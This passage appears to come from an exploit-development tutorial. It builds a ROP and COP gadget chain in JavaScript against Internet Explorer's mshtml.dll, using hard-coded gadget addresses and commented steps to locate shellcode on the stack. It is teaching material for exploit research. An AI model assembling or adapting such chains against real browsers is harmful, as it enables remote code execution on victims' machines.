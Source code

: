 So to start, let's place this negative representation between the current value in ECX, which is the stack address that points to `11111111`, or our parameter placeholder for the return address, and our shellcode location (`91919191`) into EAX.

```js
rop += "\ubfd3\u750c";                     // pop eax ; ret (750cbfd3) (mshtml.dll) Place the negative distance between the current value of ECX (which contains the fake return parameter placeholder on the stack) and the shellcode location into EAX 
rop += "\ufc80\uffff";                     // Negative distance described above (fffffc80)
````

From here, we will perform the negation operation on EAX, which will place the actual value of `0x4dc` into EAX.

```js
rop += "\u8cf0\u7504";                     // neg eax ; ret (75048cf0) (mshtml.dll) Place the actual distance to the shellcode into EAX
````

As mentioned above, we know we want to eventually get the stack address which points to our shellcode into EAX. To do so, we will need to actually add the distance to our shellcode to the address of our return parameter placeholder, which currently is only in ECX. There is a nice ROP gadget that can easily add to EAX in `mshtml.dll`.

`add eax, ebx ; ret`

In order to add to EAX, we first need to get distance to our shellcode into EBX. To do this, there is a nice COP gadget available to us.

`mov ebx, eax ; call edi`

We first are going to start by preparing EDI with a ROP gadget that returns to the stack, as is common with COP.

```js
rop += "\u4d3d\u74c2";                     // pop edi ; ret (74c24d3d) (mshtml.dll) Prepare EDI for a COP gadget 
rop += "\u07be\u74fb";                     // add esp, 0xC ; ret (74fb07be) (mshtml.dll) Return back to the stack and jump over the return address form previous COP gadget
````
After, let's then store the distance to our shellcode into EBX, and compensate for the previous COP gadget's return to the stack.

```js
rop += "\uc0c8\u7512";                     // mov ebx, eax ; call edi (7512c0c8) (mshtml.dll) Place the distance to the shellcode into EBX
rop += "\u9090\u9090";                     // Padding to compensate for previous COP gadget
rop += "\u9090\u9090";                     // Padding to compensate for previous COP gadget
````
We know ECX current holds the address of the parameter placholder for our return address, which was the base address used in our calculation for the distance between this placholder and our shellcode. Let's move that address into EAX.

```js
rop += "\u9449\u750c";                     // mov eax, ecx ; ret (750c9449) (mshtml.dll) Get the return address parameter placeholder stack address back into EAX
````
Let's now step through these ROP gadgets in the debugger.
